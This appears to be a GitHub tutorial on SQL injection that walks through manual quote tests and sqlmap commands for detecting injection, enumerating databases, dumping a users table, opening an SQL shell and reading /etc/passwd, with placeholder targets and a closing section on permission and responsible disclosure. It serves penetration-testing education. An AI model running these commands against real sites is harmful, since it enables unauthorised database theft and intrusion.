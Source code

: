 SQL Injection is a code injection technique where malicious SQL statements are inserted into input fields
allowing an attacker interact directly with a database. It is one of the most common vulnerabilities found in web applications and can lead to unauthorized access, data breaches,
and even complete system compromise.


![Screenshot_2024-12-10_14_50_39](https://github.com/user-attachments/assets/c73a63da-be5e-48f1-822f-efebd80e2f78)

we are testing in sql map
SQLMap is one of the most popular open-source penetration testing tools specifically designed for automating the process of detecting and exploiting SQL injection vulnerabilities.
which is an automated tool for detecting and exploiting SQL injection vulnerabilities. SQLMap is generally used to test whether a web application is vulnerable to SQL injection and, if so, to exploit those vulnerabilities to extract data from the database.

### How to Use SQLMap to Find Vulnerable Websites

SQLMap itself doesn't find websites on the internet; rather, it is used after you’ve identified a potentially vulnerable site or URL. It automates the process of testing that site for SQL injection vulnerabilities.
Below are the steps you can take to find vulnerable websites (with explicit permission!) and then use SQLMap to test and exploit those vulnerabilities.

### Steps to Use SQLMap for Finding Vulnerable Websites

1. Reconnaissance and Target Identification: 
   The first step is to identify a target that might be vulnerable to SQL injection. This often involves gathering information about the target website.

2. Test the Target for SQL Injection: 
   Once you’ve identified a URL or parameter, you can use SQLMap to test it for SQL injection vulnerabilities.

### 1.Identifying a Target URL or Parameter

Before using SQLMap, you need a URL with a parameter that could be potentially vulnerable to SQL injection. Common parameters to test for vulnerabilities include:

- `id=`
- `user=`
- `page=`
- `product=`
- `category=`

These parameters are often used in database queries and are common entry points for SQL injection.

#### Examples of URLs that may contain vulnerable parameters:

- `http://example.com/page.php?id=1`
- `http://example.com/product.php?id=5`
- `http://example.com/search.php?q=test`

### 2. **Manually Checking for SQL Injection (Quick Test)**

You can quickly check if a website is vulnerable to SQL injection by adding a single quote (`'`) to the parameter in the URL. For example:

- `http://example.com/page.php?id=1'`
- `http://example.com/product.php?id=5'`

If the website responds with an SQL error, there's a high chance that the parameter is vulnerable to SQL injection. However, **this is just a quick check** and doesn't mean the vulnerability is confirmed. SQLMap can help automate this process and take it further.

### 3. **Running SQLMap Against a Target URL**

Once you've identified a potentially vulnerable parameter (e.g., `id=1`), you can use SQLMap to test it for SQL injection. SQLMap will automatically detect and exploit SQL injection vulnerabilities in the provided URL.

Here’s how you would run SQLMap to check for SQL injection vulnerabilities in a URL:

#### Basic SQLMap Command

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

- `-u "http://example.com/page.php?id=1"`: Specifies the URL you want to test.
- `--batch`: Automatically answers "yes" to all prompts (useful for automation).

### 4. **Advanced SQLMap Commands**

Once SQLMap is running, it will attempt to detect if the parameter (`id` in the above example) is vulnerable to SQL injection and try different payloads to exploit it. If it finds an injection point, SQLMap will proceed to exploit it.

Here are some advanced options you can use with SQLMap:

#### 1. **Check for Specific Types of SQL Injection**:
To explicitly test for specific types of SQL injection, you can use the `--technique` option. For example:

- `--technique=BEUSTQ`: Test for **Blind**, **Error-based**, **Union-based**, **Stacked**, and **Time-based** SQL injection.

```bash
sqlmap -u "http://example.com/page.php?id=1" --technique=BEUSTQ --batch
```

#### 2. **Test POST Requests**:
If the SQL injection vulnerability exists in a POST request (for example, a login form), use the `--data` flag to specify the POST data.

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --batch
```

#### 3. **Using Custom Headers (like Cookies)**:
Sometimes vulnerabilities exist in cookies, HTTP headers, or other non-URL parameters. You can pass cookies or custom headers using the `--cookie` option.

```bash
sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abcd1234" --batch
```

#### 4. **Enumerating Databases**:
Once SQLMap detects a vulnerability, you can use it to enumerate databases. For example, to list all databases in the target:

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch
```

This will return a list of databases available in the target system.

#### 5. **Dumping Data from a Table**:
After identifying the target database, you can dump data from a specific table. For example, to dump data from the `users` table in the `test_db` database:

```bash
sqlmap -u "http://example.com/page.php?id=1" -D test_db -T users --dump --batch
```

#### 6. **Using SQL Shell**:
You can use SQLMap’s interactive SQL shell to execute custom SQL queries against the compromised database.

```bash
sqlmap -u "http://example.com/page.php?id=1" --sql-shell
```

This opens a prompt where you can execute SQL commands directly against the target database.

#### 7. **Check for Specific SQL Injection Types**:
You can specify which type of injection you want to test for using the `--technique` option. For example:

- **T**: Time-based Blind SQL Injection
- **B**: Boolean-based Blind SQL Injection
- **E**: Error-based SQL Injection
- **U**: Union-based SQL Injection

```bash
sqlmap -u "http://example.com/page.php?id=1" --technique=T --batch
```

This will focus SQLMap on testing **time-based** SQL injection.

### 5. **Post-Exploitation with SQLMap**

Once SQLMap successfully identifies a vulnerable parameter and exploits it, it can perform a variety of post-exploitation tasks such as:

- **Database Enumeration**: SQLMap can list all databases and tables in the vulnerable DBMS.
- **Data Dumping**: SQLMap can dump all rows from a table (e.g., usernames, passwords, etc.).
- **Privilege Escalation**: Depending on the SQL injection vulnerability, SQLMap may help escalate privileges by modifying user roles or accessing the file system.
- **Accessing the File System**: If the SQL user has sufficient privileges, SQLMap can access the file system and even read sensitive files like `/etc/passwd` on Linux or `C:\Windows\System32\drivers\etc\hosts` on Windows.

```bash
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd" --batch
```

### Key SQLMap Options

- `-u` : Specify the URL to test.
- `--data` : POST request data.
- `--cookie` : Send a cookie with the request.
- `--batch` : Automatically answer all prompts.
- `--dbs` : Enumerate databases.
- `-D` : Specify a database to target.
- `-T` : Specify a table to target.
- `--dump` : Dump data from a table.
- `--technique` : Specify injection techniques (e.g., `T`, `B`, `U`, `E`).
- `--sql-shell` : Open an interactive SQL shell.

### 6. **Ethical Considerations and Legal Concerns**

- **Get Permission**: Never run SQLMap (or any penetration testing tool) against a website without **explicit permission**. This is critical to stay within legal boundaries.
- **Bug Bounty Programs**: If you want to test websites in a legal environment, participate in **bug bounty programs** like those on **HackerOne**, **Bugcrowd**, or **Open Bug Bounty**.
- **Responsible Disclosure**: If you find vulnerabilities during authorized testing, always follow responsible disclosure practices and report the issue to the website's owner or the relevant authority.

how to retrieve data step to one by one
